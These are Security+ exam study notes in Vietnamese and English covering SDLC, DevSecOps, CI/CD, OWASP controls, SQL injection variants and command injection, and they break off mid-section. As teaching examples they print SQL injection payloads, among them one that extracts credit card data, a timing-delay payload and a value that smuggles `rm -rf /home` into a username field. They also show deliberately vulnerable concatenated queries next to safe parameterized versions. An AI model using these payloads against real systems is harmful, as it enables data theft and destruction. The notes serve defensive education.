









# THE COMPTIA SECURITY+ EXAM OBJECTIVES COVERED IN THIS CHAPTER INCLUDE: {#2bb7b0eb61a480ccb122d84e30446985}


## Domain 2.0: Threats, Vulnerabilities, and Mitigations {#2bb7b0eb61a48066b3cbe9579a49aadb}


### 2.3. Explain various types of vulnerabilities. {#2bb7b0eb61a480a6be5bd73f55ffcb86}

- Application (Memory injection, Buffer overflow, Race conditions (Time-of-check (TOC), Target of evaluation (TOE), Time-of-use (TOU)), Malicious update)
- Web-based (Structured Query Language injection (SQLi), Cross-site scripting (XSS))

### 2.4. Given a scenario, analyze indicators of malicious activity. {#2bb7b0eb61a480c797cafe0be3f59148}

- Application attacks (Injection, Buffer overflow, Replay, Privilege escalation, Forgery, Directory traversal)

## Domain 4.0: Security Operations {#2bb7b0eb61a480f08152e0bd5b4eb6d5}


### 4.1. Given a scenario, apply common security techniques to computing resources. {#2bb7b0eb61a48051af9ad0a6b5d3f9a8}

- Application security (Input validation, Secure cookies, Static code analysis, Code signing)
- Sandboxing

### 4.3. Explain various activities associated with vulnerability management. {#2bb7b0eb61a480459e41ef77bd1799e2}

- Identification methods (Application security, Static analysis, Dynamic analysis, Package monitoring)

### 4.7. Explain the importance of automation and orchestration related to secure operations. {#2bb7b0eb61a480119c11c1f573f87f8b}

- Use cases of automation and scripting (User provisioning, Resource provisioning, Guard rails, Security groups, Ticket creation, Escalation, Enabling/disabling services and access, Continuous integration and testing, Integrations and Application programming interfaces (APIs))
- Benefits (Efficiency/time saving, Enforcing baselines Standard infrastructure configurations, Scaling in secure manner, Employee retention, Reaction time Workforce multiplier)
- Other considerations (Complexity, Cost, Single point of failure, Technical debt, Ongoing supportability)

## Domain 5.0: Security Program Management and Oversight {#2bb7b0eb61a4800c907ac397b9700746}


### 5.1. Summarize elements of effective security governance {#2bb7b0eb61a48004bffbd4dcb4ae0711}

- Policies (Software development lifecycle (SDLC))

---


## Software assurance best practices {#2bb7b0eb61a4804f8c09d9f6a9fe6feb}


Chu trình phát triển phần mềm (software development life cycle (SDLC))

- Định nghĩa: là chu trình phát triển phần mềm, từ ý tưởng hình thành đến khi phần mềm bị loại bỏ (decommissioning)
- Mục đích: giúp quản lý quy trình thiết kế, tạo lập, hỗ trợ và bảo trì phần mềm. Đối với chuyên gia bảo mật, SDLC là bắt buộc để có thể cài cắm các biện pháp bảo mật vào từng giai đoạn

## Software development phases {#2bb7b0eb61a480c68182c72e4b6fd032}





Có nhiều mô hình SDLC, nhưng chúng đều có những điểm cốt lõi như hình 6.1:

- Planning:
	- Điều tra ban đầu (initial investigations) xem dự án có khả thi không
	- Xem xét các giải pháp thay thế
- Requirements definition:
	- Thu thập ý kiến khách hàng để xác định chức năng mong muốn
	- Quan trọng: Đây cũng là giai đoạn để xác định security requirements luôn
- Design: thiết kế kiến trúc, dataflows và quy trình nghiệp vụ
- Coding: viết code, gồm unit testing để đảm bảo từng phần nhỏ hoạt động
- Testing
	- Kiểm thử chính thức với khách hàng hoặc người khác (không phải dev)
	- Integration: kết hợp các thành phần
	- User Acceptance testing (UAT): để đảm bảo người dùng hài lòng với chức năng
- Training and transition:
	- Đào tạo cho end users
	- Còn gọi nstallation and deployment
- Operations and maintainance:
	- Giai đoạn dài nhất
	- Gồm: patching và updating, daily support
- Decommisioning:
	- EOL, thường bị bỏ qua nhưng quan trọng để tiết kiệm chi phí và tiêu hủy dữ liệu an toàn

### Code deployment environments {#2bb7b0eb61a48031a51acbcee7f25098}


Trong các tổ chức chuyên nghiệp, code không được viết xong rồi chạy ngay trên hệ thống

- Dev environments: là nơi builder (dev) viết code, trên máy của dev hoặc server nội bộ
	- Cấu hình lộn xộn, thay đổi liên tục
- Test environments: là nơi thực hiện QA (quality assurance), để kiểm tra lỗi
	- Phòng thí nghiệm, code tương đối ổn định hơn dev
- Staging environments: là môi trường chuyển tiếp (staging)
	- transition environment for code that has successfully cleared testing
	- Cấu hình giống hệt môi trường production
	- Code đã test ở đây sẽ được đẩy qua production
- Production environment:
	- Hệ thống đang chạy
	- Những code đã được kiểm tra kĩ thì mới ở đây

Lưu ý: việc di chuyển code qua các môi trường này phải tuân theo quy trình Change Management


## DevSecOps and DevOps {#2bb7b0eb61a480a58f9df2ad17eff0f3}

- **DevOps:** Là sự kết hợp giữa **Dev**elopment (Phát triển) và **Op**erations (Vận hành) nhằm tối ưu hóa SDLC.
	- Sử dụng **Toolchains** (chuỗi công cụ) để tự động hóa việc code, build, test, package, và release.
- **DevSecOps:** Là việc tích hợp bảo mật ("baked into") ngay vào quy trình DevOps.
	- Bảo mật không phải là bước cuối cùng nữa, mà là một phần của toàn bộ vòng đời (_part of the entire development and operations cycle_).
	- Vai trò của chuyên gia bảo mật trong DevSecOps: Phân tích mối đe dọa, lên kế hoạch kiểm thử tự động, cung cấp phản hồi liên tục.

### Continuous integration and continuous deployment (CI&CD) {#2bb7b0eb61a480c6b06aeebc5d0fb0db}


Là trái tim của devSecOps

- CI: Dev liên tục đẩy code (check code) vào khu lưu trữ chung (shared repo) nhiều lần trong ngày
	- Sử dụng automation để phát hiện lỗi sớm
- CD: tự động hóa việc kiểm thử và triển khai code ra môi trường production ngay khi nó vượt qua các bài test
	- Giúp phát hành phần mềm diễn ra nhanh chóng và liên tục



- Continuous validation:
	- Trong quy trình CI/CD: việc kiểm thử bảo mật cũng được tự động hóa
	- Tuy nhiên, nếu quy trình test tự động không tốt, lỗ hổng mới (new vulnerabilty) có thể bị đẩy thẳng lên production rất nhanh
- This means that logging, reporting, and continuous monitoring must all be designed to fit the CI/CD process.

:::tip

Nói thêm về CI/CD:
Vấn đề việc dev viết code riêng lẻ và merge lại gây xung đột, hỏng code của nhau

- **Quy trình tự động:**

- **Kết quả:** Nếu có lỗi, hệ thống báo đỏ ngay lập tức. Dev sửa ngay trong ngày.

- **Góc độ Bảo mật:** Tại bước CI này, chúng ta chèn công cụ **SAST** (Static Application Security Testing) để quét mã nguồn tìm lỗi bảo mật ngay khi code vừa viết xong.

CD

**A. Continuous Delivery (Chuyển giao liên tục)**

- **Quy trình:** Sau khi CI (Build & Test) thành công, code sẽ được tự động đẩy lên môi trường **Staging** (Môi trường nháp giống hệt thật).

- **Điểm mấu chốt:** Việc đẩy code từ Staging sang **Production** (Môi trường thật cho khách dùng) cần một **Cú Click chuột của con người** (Manual Approval).

- **Tại sao:** Để sếp hoặc team QA kiểm tra lần cuối cho chắc ăn rồi mới bấm nút phát hành.

- _An toàn hơn, kiểm soát rủi ro tốt hơn._

**B. Continuous Deployment (Triển khai liên tục)**

- **Quy trình:** Tự động hóa 100% từ đầu đến cuối.

- **Điểm mấu chốt:** Nếu code vượt qua tất cả các bài test tự động ở CI, nó sẽ được **đẩy thẳng lên Production** ngay lập tức mà **KHÔNG CẦN con người phê duyệt**.

- **Tại sao:** Tốc độ cực nhanh (Facebook, Netflix dùng cách này).

- _Rủi ro cao hơn, đòi hỏi hệ thống test tự động phải cực kỳ xịn._


Trong bài thi Security+, nếu đề bài hỏi về **"Automation pipeline"** mà có sự tham gia phê duyệt thủ công trước khi ra môi trường thật, đó là **Continuous Delivery**. Nếu nó nói code thay đổi là user thấy ngay lập tức, đó là **Continuous Deployment**.

:::


## Designing and Coding for Security {#2bb7b0eb61a48064b14df3705434a345}

- Requirements & Design: Là cơ hội đầu tiên để nhúng bảo mật vào (Built in as part of requirements)
- Coding: sử dụng secure coding, code review
- Testing: sử dụng các công cụ vulnerability scanner và pentest
- Operation: xây dựng baseline để quét bảo mật trong tương lai và kiểm tra hồi quy regression testing khi có bản vá mới

### Secure coding practices {#2bb7b0eb61a480f28a51dec0636e3e26}


Open wordwide application security project là nguồn tài nguyên tốt nhất để học secure coding


OWASP Top proactive controls: OWASP top 10

- Define security requirements: xác định yêu cầu bảo mật ngay trong quá trình phát triển
- Leverage security framworks and libraries: sử dụng các thư viện và khung làm việc có sẵn đã được kiểm chứng là an toàn, không viết lại từ đầu (reinvent the wheel)
- Secure database access: viết lại các truy vấn SQL để ngăn chặn SQL injection
- Encode and escape data: loại bỏ hoặc mã hóa các ký tự đặc biệt để tránh lỗi thông dịch mã
- Validate all input: Coi mọi dữ liệu người dùng nhập vào là không tin cậy
- Implement digital identity: sử dụng MFA, quản lý phiên (session handling)
- Enforce access control: áp dụng nguyên tắc đặc quyền tối thiểu (least privilege) và deny by default
- Protect data everywhere: mã hóa dữ liệu in transit và at rest
- Implement security logging and monitoring: ghi nhật ký để phát hiện và điều tra sự cố
- Handle all errors and exceptions: không để lộ thông tin nhạy cảm trong thông báo lỗi, xử lý lỗi nhẹ nhàng
- [https://top10proactive.owasp.org/](https://top10proactive.owasp.org/)
- [https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

| **Thứ tự** | **Lỗ hổng**                               | **Mô tả ngắn gọn**                                                                 |
| ---------- | ----------------------------------------- | ---------------------------------------------------------------------------------- |
| **A01**    | **Broken Access Control**                 | Vi phạm chính sách phân quyền (Ví dụ: User xem được dữ liệu của Admin).            |
| **A02**    | **Security Misconfiguration**             | Cấu hình sai, để lộ thông tin nhạy cảm hoặc dùng tài khoản mặc định.               |
| **A03**    | **Software Supply Chain Failures**        | Lỗ hổng từ các thư viện bên thứ ba hoặc quy trình build/deploy không an toàn.      |
| **A04**    | **Cryptographic Failures**                | Lỗi mã hóa (Sử dụng thuật toán yếu như MD5, SHA1 hoặc không mã hóa dữ liệu).       |
| **A05**    | **Injection**                             | Chèn mã độc (SQL Injection, Cross-site Scripting - XSS) vào hệ thống qua input.    |
| **A06**    | **Insecure Design**                       | Lỗi ngay từ khâu thiết kế hệ thống (Thiếu Threat Modeling).                        |
| **A07**    | **Authentication Failures**               | Lỗi xác thực (Mật khẩu yếu, không có 2FA, session timeout quá dài).                |
| **A08**    | **Software/Data Integrity Failures**      | Dữ liệu bị thay đổi bất hợp lệ khi truyền tải hoặc giải tuần tự (Deserialization). |
| **A09**    | **Security Logging & Alerting Failures**  | Thiếu ghi log hoặc cảnh báo khi có tấn công xảy ra.                                |
| **A10**    | **Mishandling of Exceptional Conditions** | Xử lý lỗi/ngoại lệ không tốt, để lộ cấu trúc hệ thống cho kẻ tấn công.             |


### API security {#2bb7b0eb61a480459741f90606a15d66}


API (Appication programming interfaces) là giao diện giúp các phần mềm nói chuyện với nhau

- Rủi ro: API là điểm yếu nếu không được bảo mật, vì nó cho phép truy xuất dữ liệu trực tiếp từ máy chủ
- Biện pháp bảo vệ:
	- Sử dụng API key
		- Là chuỗi ký tự duy nhất cấp riêng cho từng khách hàng
		- Dùng để theo dõi và ghi nhật ký (logging and tracking)
		- Dễ quản lý, A không trả tiền thì B vô hiệu hóa key đó là xong
	- Authentication and Authorization
	- Giới hạn dữ liệu trả về (proper data scoping)
	- Giới hạn tốc độ để tránh DDoS
	- Lọc đầu vào
- Lưu ý: OWASP có một dự án riêng là OWASP API security project để hướng dẫn về mảng này

### Software security testing {#2bb7b0eb61a4805bbb76dffef390fb96}


PHần mềm viết kỹ kiểu gì cũng có lỗi. Để kiểm thử có 4 phương pháp chính:

- Static code analysis - SAST:
	- Cơ chế: phân tích mã nguồn mà không chạy chương trình
	- Ưu điểm:
		- Nhìn thấy toàn bộ cấu trúc và chỉ ra chính xác vị trí lỗi cho dev
		- Có thể phát hiện được logic nghiệp vụ
- Dynamic code analysis: DAST
	- Cơ chế: chạy chương trình và gửi dữ liệu đầu vào để kiểm tra
	- Ưu điểm: kiểm tra đượ tất cả các giao diện người dùng tương tác
	- Nhược: không thấy code bên trong
- Fuzzing:
	- Cơ chế: gửi dữ liệu ngẫu nhiên hoặc không hợp lệ vào ứng dụng để xem nó có sập không
	- Mục đích: tìm lỗi xử lý đầu vào, memory leaks và lỗi logic
	- Hạn chế không phát hiện được lỗi nghiệp vụ
	- Fuzzing tìm lỗi gì? -> **Memory leaks** (rò rỉ bộ nhớ), **Buffer overflows**, **Unhandled exceptions**.
	- Nó thuộc loại test nào? -> **Dynamic Analysis** (vì phải chạy ứng dụng mới test được).
- Manual code review
	- Con người đọc code. Lâu

## Injection vulnerabilities {#2bb7b0eb61a480918581fef6d48de306}

- Bản chất: injection là việc ứng dụng cho phép kẻ tấn công chèn một đoạn mã trong dữ liệu đầu vào
- Hậu quả: ứng dụng web không nhận ra đó là dữ liệu độc, mà lại xử lý nó như một đoạn mã hợp lệ và thực thi
- Nguyên nhân: lack of input validation

### SQL injection attacks (SQLi) {#2bb7b0eb61a480e78755c2a04a65d5ad}


Là loại injection phổ biến nhất

- **Bình thường:** Bạn nhập "orange tiger pillow". Ứng dụng tạo câu lệnh SQL để tìm sản phẩm có tên đó.

	```sql
	SELECT ItemName, ItemDescription, ItemPrice
	FROM Products
	WHERE ItemName LIKE '%orange%' AND
	ItemName LIKE '%tiger%' AND
	ItemName LIKE '%pillow%'
	```

- **Tấn công:** Hacker nhập một chuỗi ký tự đặc biệt vào ô tìm kiếm:
`orange tiger pillow'; SELECT CustomerName, CreditCardNumber FROM Orders; --`
- **Kết quả:**
	1. Dấu chấm phẩy `;` kết thúc câu lệnh tìm kiếm ban đầu.
	2. Câu lệnh thứ hai `SELECT CustomerName...` được thực thi, yêu cầu Database trả về danh sách thẻ tín dụng.
	3. Dấu `-` dùng để comment (vô hiệu hóa) phần còn lại của câu lệnh gốc để tránh lỗi cú pháp.

> Exam Note: Dấu hiệu nhận biết SQL Injection trong đề thi là sự xuất hiện của các ký tự như ' (dấu nháy đơn), ; (chấm phẩy), -- (dấu gạch đôi), hoặc cụm từ OR 1=1.


```sql
SELECT ItemName, ItemDescription, ItemPrice
FROM Products
WHERE ItemName LIKE '%orange%' AND
ItemName LIKE '%tiger%' AND
ItemName LIKE '%pillow';
SELECT CustomerName, CreditCardNumber
FROM Orders;
--%'
```


### Blind content-based SQLi {#2bb7b0eb61a480bc9d27cc78dae2541b}


Đôi khi các ứng dụng web được lập trình tốt hơn, không hiển thị lỗi hay kết quả trực tiếp ra màn hình cho hacker thấy. Lúc này hacker dùng kĩ thuật mù

- Content-based blind SQLi:
	- Hacker hỏi database các câu hỏi đúng sai vd: `OR 1=1`
	- Nếu trang web hiển thị bình thường → Điều kiện đúng
	- Nếu trang web hiển thị khác đi → điều kiện sai
	- Dựa vào sự thay đổi của nội dung trang web, hacker đoán ra từng chút một

Ví dụ đối với một trang web có giao diện





Nếu người dùng enter accout number




- **Kịch bản (Figure 6.3 & 6.4):**
	- Một trang web có chức năng tra cứu tài khoản.
	- Người dùng nhập `Account Number`.
	- Hệ thống chạy câu lệnh SQL:

	```sql
	SELECT FirstName, LastName, Balance
	FROM Accounts
	WHERE AccountNumber = '$account'
	```

- **Tấn công:**
	- Hacker nhập: `52019' OR 1=1; --`
	- Câu lệnh trở thành: `... WHERE AccountNumber = '52019' OR 1=1`
	- Vì `1=1` luôn đúng (_Always True_), cơ sở dữ liệu sẽ trả về **tất cả** các bản ghi trong bảng.
- **Dấu hiệu nhận biết:**
	- Nếu hacker nhập một điều kiện SAI (ví dụ `AND 1=2`) và trang web trả về nội dung khác (hoặc không có dữ liệu) so với khi nhập điều kiện ĐÚNG (`AND 1=1`), hacker biết rằng câu lệnh SQL đã được thực thi. Đây gọi là **Content-based**.

Như vậy thì hacker biết trang web có lỗ hổng và tiếp tục thực hiện hành vi


### Blind timing-based SQLi {#2bb7b0eb61a480919da6e9b0a14e9fe8}


Đây là kỹ thuật dùng khi **Content-based** không hiệu quả (tức là trang web luôn trả về cùng một nội dung dù hacker nhập đúng hay sai).

- **Cơ chế:** Hacker yêu cầu cơ sở dữ liệu "ngủ" hoặc tạm dừng xử lý trong một khoảng thời gian nhất định nếu điều kiện hacker đưa ra là đúng.
- **Câu lệnh ví dụ:** `52019'; WAITFOR DELAY '00:00:15'; --`
	- Lệnh này bảo Database: "Hãy đợi 15 giây rồi mới làm tiếp".
- **Cách xác nhận:**
	- Hacker bấm nút Submit và bấm giờ.
	- Nếu trang web mất **đúng 15 giây** mới tải xong -> **Lỗ hổng tồn tại** (Vì Database đã nghe lời hacker và thực thi lệnh Delay).
	- Nếu trang web tải xong ngay lập tức -> Không bị lỗi.
- **Ứng dụng (Trích xuất mật khẩu):**
	- Hacker có thể dùng kỹ thuật này để đoán từng ký tự của mật khẩu quản trị viên.
	- _Ví dụ logic:_ "Nếu ký tự đầu tiên của mật khẩu là 'A', hãy đợi 15 giây". Nếu web bị lag 15 giây -> Ký tự đầu là 'A'. Nếu không -> Thử tiếp 'B'.
	- Việc này rất tốn thời gian (_tedious_), nên hacker thường dùng các công cụ tự động như **SQLmap** hoặc **Metasploit**.

> Exam Note: Hãy nhớ bản chất của SQL Injection là chèn mã độc để thao tác với Cơ sở dữ liệu (Database).


### Cách phòng chống SLQi {#2d97b0eb61a480a4a6d6e460e24cc7e4}

- Sử dụng paramaterized query (truy vấn có tham số hóa)

```sql
// Cộng chuỗi trực tiếp -> NGUY HIỂM
string query = "SELECT * FROM Users WHERE Username = '" + user_input + "' AND Password = '" + pass + "'";
SqlCommand cmd = new SqlCommand(query, conn);
// Kết quả câu lệnh chạy: SELECT * FROM Users WHERE Username = 'admin' --' AND Password = ...
// Dấu -- trong SQL là comment, nó bỏ qua đoạn kiểm tra pass phía sau -> Hacker đăng nhập thành công.
```


```sql
// Bước 1: Viết câu lệnh với tham số @Username (Placeholder)
string query = "SELECT * FROM Users WHERE Username = @Username AND Password = @Password";
SqlCommand cmd = new SqlCommand(query, conn);

// Bước 2: Gắn dữ liệu vào tham số
// Database sẽ hiểu: "@Username" là một cái hộp chứa chữ. Dù hacker nhét lệnh gì vào hộp này, nó vẫn chỉ là chữ.
cmd.Parameters.AddWithValue("@Username", user_input);
cmd.Parameters.AddWithValue("@Password", pass);

cmd.ExecuteReader();
```

- Sử dụng SP đúng cách: không cộng chuỗi trong query mà dùng tham sô

```sql
CREATE PROCEDURE GetUser_Unsafe
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(MAX);
    -- Vẫn cộng chuỗi bên trong SP -> NGUY HIỂM
    SET @sql = 'SELECT * FROM Users WHERE Name = ''' + @username + '''';
    EXEC(@sql);
END
```


```sql
CREATE PROCEDURE GetUser_Safe
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(MAX);
    -- Dùng tham số @UserParam bên trong câu lệnh động
    SET @sql = N'SELECT * FROM Users WHERE Name = @UserParam';

    -- Truyền tham số an toàn qua sp_executesql
    EXEC sp_executesql 
        @stmt = @sql, 
        @params = N'@UserParam NVARCHAR(50)', 
        @UserParam = @username; 
END
```

- Input validation & escaping
	- **White-list Validation (Danh sách trắng):** Chỉ cho phép những gì hợp lệ.
		- Ví dụ: Nếu ô nhập là "Tuổi", chỉ cho phép nhập số `(0-9)`. Nếu nhập `1 OR 1=1` -> Báo lỗi ngay.
		- Ví dụ: Email phải đúng định dạng `abc@xyz.com`.
	- **Sanitization (Làm sạch):** Loại bỏ hoặc mã hóa các ký tự nguy hiểm.
		- Ví dụ: Chuyển dấu nháy đơn `'` thành `''` (hai dấu nháy đơn) để vô hiệu hóa nó. Tuy nhiên, cách này không triệt để bằng Parameterized Query.
	- **Sử dụng** **`QUOTENAME()`** **(Cho tên bảng/cột):**
		- Như đã phân tích ở câu hỏi trước của bạn, khi tên bảng hoặc tên cột là biến động, hãy bọc nó bằng `QUOTENAME()` để tránh hacker chèn mã độc vào tên đối tượng.
- Least privilege:
	- Không dùng ad để chạy web, phân quyền chặt chẽ, tạo user cho ứng dụng web
	- Không cấp quyền cho user này drop, truncate, grant

### Code injection attacks {#2bb7b0eb61a480bda1dce9dd3e9b94f2}

- **LDAP Injection:** Chèn mã vào các truy vấn thư mục (như Active Directory) để lấy thông tin người dùng.
- **XML Injection:** Chèn mã vào cấu trúc XML.
- **DLL Injection:** Ép một chương trình đang chạy phải tải một file thư viện liên kết động (_Dynamic Link Library - DLL_) chứa mã độc.

## Command Injection attacks {#2bb7b0eb61a480b5b33ae23590883db3}


Đây là phần cực kỳ quan trọng và cần phân biệt rõ với SQL Injection.

- **Khác biệt:**
	- **SQL Injection:** Tấn công vào **Database**.
	- **Command Injection:** Tấn công trực tiếp vào **Hệ điều hành (Operating System)** của máy chủ web.
- **Kịch bản (Figure 6.6):**
	- Một trang web tạo tài khoản sinh viên.
	- Ở phía sau (backend), code của lập trình viên gọi lệnh hệ thống (ví dụ lệnh `mkdir` trên Linux) để tạo thư mục cho sinh viên:
	`system('mkdir /home/students/' + username)`



- **Tấn công:**
	- Hacker nhập vào ô username chuỗi ký tự: `mchapple & rm -rf /home`
	- Câu lệnh hệ thống được thực thi sẽ là:
	`mkdir /home/students/mchapple & rm -rf /home`
- **Giải thích kỹ thuật:**
